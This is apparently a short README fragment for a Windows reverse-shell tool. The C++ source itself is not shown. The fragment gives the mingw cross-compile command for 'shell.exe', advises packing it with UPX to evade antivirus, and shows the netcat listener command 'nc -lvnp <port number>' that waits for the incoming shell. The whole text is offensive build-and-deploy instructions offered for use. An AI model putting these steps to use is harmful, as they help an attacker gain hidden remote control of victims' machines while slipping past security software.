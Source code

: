 # Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for (AV) Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
